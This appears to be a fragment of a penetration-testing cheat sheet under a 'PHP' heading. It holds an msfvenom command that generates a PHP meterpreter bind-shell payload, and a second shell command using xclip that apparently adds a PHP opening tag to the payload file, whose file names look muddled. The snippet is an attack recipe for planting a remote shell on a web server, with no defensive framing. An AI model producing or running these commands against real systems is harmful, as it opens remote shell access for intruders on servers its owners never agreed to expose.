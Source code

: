 # PHP

`$ msfvenom -p php/meterpreter_bind_tcp lport=<PORT> -f raw > met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`